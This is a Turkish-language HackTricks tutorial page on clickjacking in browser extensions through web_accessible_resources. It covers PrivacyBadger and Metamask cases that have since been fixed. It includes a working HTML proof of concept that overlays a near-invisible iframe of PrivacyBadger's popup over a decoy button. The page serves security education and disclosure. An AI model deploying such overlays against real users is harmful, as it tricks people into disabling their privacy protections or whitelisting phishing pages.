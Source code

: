 # BrowExt - ClickJacking

{{#include ../../banners/hacktricks-training.md}}

## Temel Bilgiler

Bu sayfa, bir Tarayıcı uzantısındaki ClickJacking açığını kötüye kullanacak.\
ClickJacking'in ne olduğunu bilmiyorsanız kontrol edin:

{{#ref}}
../clickjacking.md
{{#endref}}

Uzantılar, **`manifest.json`** dosyasını içerir ve bu JSON dosyasında `web_accessible_resources` alanı vardır. İşte [Chrome belgelerinde](https://developer.chrome.com/extensions/manifest/web_accessible_resources) bununla ilgili söylenenler:

> Bu kaynaklar, **`chrome-extension://[PACKAGE ID]/[PATH]`** URL'si aracılığıyla bir web sayfasında mevcut olacaktır; bu, **`extension.getURL method`** ile oluşturulabilir. Beyaz listeye alınmış kaynaklar uygun CORS başlıkları ile sunulur, bu nedenle XHR gibi mekanizmalar aracılığıyla erişilebilirler.[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

Bir tarayıcı uzantısındaki **`web_accessible_resources`**, yalnızca web üzerinden erişilebilir değildir; aynı zamanda uzantının doğal ayrıcalıklarıyla da çalışır. Bu, aşağıdakileri yapabilme yeteneğine sahip oldukları anlamına gelir:

- Uzantının durumunu değiştirmek
- Ek kaynaklar yüklemek
- Tarayıcı ile belirli bir ölçüde etkileşimde bulunmak

Ancak, bu özellik bir güvenlik riski taşır. Eğer **`web_accessible_resources`** içindeki bir kaynak önemli bir işlevselliğe sahipse, bir saldırgan bu kaynağı dış bir web sayfasına gömebilir. Bu sayfayı ziyaret eden dikkatsiz kullanıcılar, bu gömülü kaynağı istemeden etkinleştirebilir. Böyle bir etkinleştirme, uzantının kaynaklarının izinlerine ve yeteneklerine bağlı olarak istenmeyen sonuçlara yol açabilir.

## PrivacyBadger Örneği

PrivacyBadger uzantısında, `skin/` dizininin aşağıdaki şekilde `web_accessible_resources` olarak tanımlanmasıyla ilgili bir güvenlik açığı tespit edilmiştir (Orijinal [blog yazısını](https://blog.lizzie.io/clickjacking-privacy-badger.html) kontrol edin):
```json
"web_accessible_resources": [
"skin/*",
"icons/*"
]
```
Bu yapılandırma potansiyel bir güvenlik sorununa yol açtı. Özellikle, tarayıcıdaki PrivacyBadger simgesi ile etkileşimde bulunulduğunda render edilen `skin/popup.html` dosyası, bir `iframe` içinde gömülebilir. Bu gömme, kullanıcıları "Bu Web Sitesi için PrivacyBadger'ı Devre Dışı Bırak" butonuna yanlışlıkla tıklamaya kandırmak için sömürülebilir. Böyle bir eylem, PrivacyBadger korumasını devre dışı bırakarak kullanıcının gizliliğini tehlikeye atar ve kullanıcıyı artan izlemeye maruz bırakabilir. Bu istismarın görsel bir gösterimi, [**https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm**](https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm) adresinde sağlanan bir ClickJacking video örneğinde görülebilir.

Bu güvenlik açığını gidermek için basit bir çözüm uygulandı: `/skin/*`'in `web_accessible_resources` listesinden kaldırılması. Bu değişiklik, `skin/` dizininin içeriğinin web erişilebilir kaynaklar aracılığıyla erişilemez veya manipüle edilemez olmasını sağlayarak riski etkili bir şekilde azalttı.

Düzeltme kolaydı: **`web_accessible_resources`'dan `/skin/*`'i kaldırın**.

### PoC
```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
width: 430px;
height: 300px;
opacity: 0.01;
float: top;
position: absolute;
}

#stuff {
float: top;
position: absolute;
}

button {
float: top;
position: absolute;
top: 168px;
left: 100px;
}
</style>

<div id="stuff">
<h1>Click the button</h1>
<button id="button">click me</button>
</div>

<iframe
src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```
## Metamask Örneği

A [**ClickJacking hakkında bir blog yazısı metamask'ta burada bulunabilir**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9). Bu durumda, Metamask, erişim için kullanılan protokolün **`https:`** veya **`http:`** (örneğin **`chrome:`** değil) olduğunu kontrol ederek açığı kapattı:

<figure><img src="../../images/image (21).png" alt=""><figcaption></figcaption></figure>

**Metamask uzantısında düzeltildiği başka bir ClickJacking**, kullanıcıların `“web_accessible_resources”: [“inpage.js”, “phishing.html”]` nedeniyle bir sayfanın phishing olduğundan şüphelenildiğinde **Beyaz listeye almak için tıklama** yapabilmeleriydi. O sayfa Clickjacking'e karşı savunmasız olduğundan, bir saldırgan, kurbanın fark etmeden beyaz listeye alması için normal bir şey göstererek bunu kötüye kullanabilir ve ardından beyaz listeye alınacak phishing sayfasına geri dönebilirdi.

## Steam Envanter Yardımcı Programı Örneği

Bir tarayıcı uzantısındaki **XSS**'nin bir **ClickJacking** açığı ile nasıl zincirleme yapıldığını kontrol etmek için aşağıdaki sayfayı kontrol edin:

{{#ref}}
browext-xss-example.md
{{#endref}}

## Referanslar

- [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
- [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)

{{#include ../../banners/hacktricks-training.md}}
